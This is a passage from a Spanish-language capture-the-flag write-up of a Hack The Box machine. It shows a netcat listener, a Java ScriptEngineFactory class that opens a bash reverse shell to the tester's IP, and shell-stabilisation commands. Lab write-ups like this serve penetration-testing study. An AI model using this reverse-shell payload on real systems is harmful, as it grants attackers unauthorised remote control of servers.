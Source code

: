 Yyyyyyyyyyy:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
10.10.10.227: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.51] from (UNKNOWN) [10.10.10.227] 48990
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Perfecto (muchas gracias `@Randall` por tu respuesta de hace 9 años 😄), somos el usuario **tomcat**, ahora si intentemos generar una Reverse Shell:

*(Despues de algunas pruebas fallidas claramente)*

```bash
...
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {

            String [] cmd = {
                "/bin/sh",
                "-c",
                "bash -c 'bash -i >& /dev/tcp/10.10.14.51/4433 0>&1'"
            };

            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
...
```

Y obtenemos:

![315bash_revSH_tomcat](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ophiuchi/315bash_revSH_tomcat.png)

Perfectoooooooooooo, tamos dentro papachooooooooooooo.

Bueno, antes de seguir hagamos tratamiento de la TTY (Shell) para poder tener historial de comandos con las flechas, dar `CTRL + C` sin miedo y demás cositas, solo debemos escribir lo siguiente:

```bash
tomcat@ophiuchi:/$ script /dev/null -c bash
(CTRL + Z)
❭ stty raw -echo
❭ fg #(asi no lo veas se esta escribiendo)
        reset
Terminal type? xterm
tomcat@ophiuchi:/$ export TERM=xterm
tomcat@ophiuchi:/$ export SHELL=bash
tomcat@ophiuchi:/$ stty rows 43 columns 192 #(Este depende del tamano de tu pantalla (`$ stty -a`))
```
